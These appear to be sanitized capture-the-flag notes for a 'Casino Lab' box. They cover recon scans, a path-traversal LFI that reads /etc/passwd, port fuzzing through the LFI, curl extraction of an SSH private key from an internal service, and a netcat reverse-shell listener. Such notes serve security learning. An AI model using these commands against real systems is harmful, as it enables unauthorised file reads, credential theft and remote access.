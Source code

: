 # 🎯 Notes - Casino Lab (SANITIZED)

## Target (sanitized)
- **IP**: [REDACTED]
- **System**: Linux (Debian)
- **Services**: SSH (22), HTTP (80), Internal service (example port)

## Commands & Observations (examples)
### Recon
- `gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt -k -t 50`
- `nmap -p- TARGET`
- `nmap --script vuln TARGET`

### LFI discovery
- Example parameter:
  - `/casino/explainmepls.php?learnabout=...`
- Example test:
  - `curl -v "http://TARGET/casino/explainmepls.php?learnabout=../../../../etc/passwd"`

### Port fuzzing via LFI (concept)
- `ffuf -u "http://TARGET/casino/explainmepls.php?learnabout=127.0.0.1:FUZZ" -w portlist.txt`

### SSH key extraction (concept)
- `curl "http://TARGET/casino/explainmepls.php?learnabout=localhost:6969/path/to/key" -o shimmer_rsa`
- **Note:** Private keys and credentials are redacted from this repo.

### Post-Exploitation notes
- Reverse shells with `nc -lvnp 4444` (lab only)
- Inspect processes and files carefully; look for interesting binaries and file descriptors

## Findings (sanitized)
- LFI vulnerability allowing local resource access
- Internal service discovered via LFI fuzzing
- Credentials and keys exposed in lab environment (REDACTED)
- Vulnerable custom binary with hardcoded secrets (REDACTED)
- File-descriptor based information disclosure (demonstrated in lab)
